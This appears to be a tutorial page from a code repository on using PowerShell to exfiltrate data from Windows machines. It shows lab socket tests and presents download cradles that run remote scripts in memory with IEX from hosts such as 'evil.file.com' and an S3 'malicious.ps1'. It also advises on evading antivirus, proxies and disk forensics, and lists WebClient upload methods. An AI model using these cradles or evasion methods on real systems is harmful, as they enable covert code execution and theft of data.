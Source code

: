 # Powershell for data exfil!

Powershell functions as a great tool for windows machines. Both PS and .net primitives are installed on every windows machine, and while you can use VBS or wscript to perform exfil, they come with a higher chance for detection. Powershell is a solid framework to perform in and we'll cover some usage and options here.

While there are multiple ways to exfiltrate data, there are a a few really common methods.

- Raw sockets
- HTTP/HTTPS
- Mail(SMTP)
- Other protocols(VoIP, QUIC, e.g.)

### Raw Sockets

The easiest way to see if a particular port is open, and permitting communications is the Test-NetConnection cmdlet, like so:
~~~
PS> Test-NetConnection -port 5555 10.0.2.2

ComputerName           : 10.0.2.2
RemoteAddress          : 10.0.2.2
RemotePort             : 5555
InterfaceAlias         : Ethernet
SourceAddress          : 10.0.2.15
PingSucceeded          : True
PingReplyDetails (RTT) : 0 ms
TcpTestSucceeded       : False
~~~
We can see that while our target device is online(via PingSucceeded) our port is closed, (via TcpTestSucceeded).

Using NC(a network tool) I open up an nc listener in order to see the connection, run the same command and see the output

My host machine, listening with verbose results:
~~~
┌─[ganymede@parrot]─[~]
└──╼ $nc -lvp 5555
listening on [any] 5555 ...
~~~

The Windows10 VM:
~~~
PS> Test-NetConnection -port 5555 10.0.2.2

ComputerName           : 10.0.2.2
RemoteAddress          : 10.0.2.2
RemotePort             : 5555
InterfaceAlias         : Ethernet
SourceAddress          : 10.0.2.15
TcpTestSucceeded       : True
~~~
My host machine see's the connection
~~~
┌─[ganymede@parrot]─[~]
└──╼ $nc -lvp 5555
listening on [any] 5555 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 57950
~~~

We can go even further and transfer files, which I'll get into in a moment, first we should talk about the reason we can do this. Powershell makes use of .net primitives, and within the system.net namespace we have sockets, allowing us to open up sockets, allowing us to transfer data. Which we can see an example of utilized below:
~~~
$FuncVarS["Socket"] = New-Object System.Net.Sockets.UDPClient $P
$PacketInfo = New-Object System.Net.Sockets.IPPacketInformation
~~~
Because these all exist within the systems network namespace, the idea is that they are all part of the OS, and it won't trip AV for that reason.

### HTTP/HTTPS 

Many techniques are portable from http to https, and in the early days, protocols like irc would be used for command and control. Modern attackers are dodging port protocol mismatches and odd traffic issues using http, because in many organization you can surf the web with no issues. While an admin might make the counter argument of "We have a web proxy to handle requests." it's not an issue for an attacker. We can actually have PoC here:
~~~
$wc = New-Object System.Net.Web.Client
$wc.Proxy = [System.Net.WebRequests]::DefaultWebProxy
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX $wc.DownloadString("https://s3bucket.amazonaws.com/malicious.ps1")
~~~

In this instance we are taking the logged in user's credentials and using the proxy, not just bypassing it, using it, which is great! We look like a normal web user and unless we're under scrutiny, we look like a normal user. 

#### Download Cradles
When we use powershell (or any language) to download a file, it's called a "download cradle"

Typical download cradles look like this:
~~~
IEX (New-Object Net.WebClient).downloadstring("http://evil.file.com/pwnagestego.png")
~~~
"System"  it's still invoked it just doesn't need to fully  be named. IEX is actually short for invoke expression and will actually launch the PS code, directly into memory, without touching the disk, bypassing execution restriction policies, and even throwing disk based forensics off. Kepe in mind, there are definitely more download cradles, this is just one example.

#### Uploader
Just as we can download files, we can upload them as well. System.Net.WebClient offers methods for this such as

System.Net.WebClient
- UploadString
- UploadFile
- UploadData
- and more too!
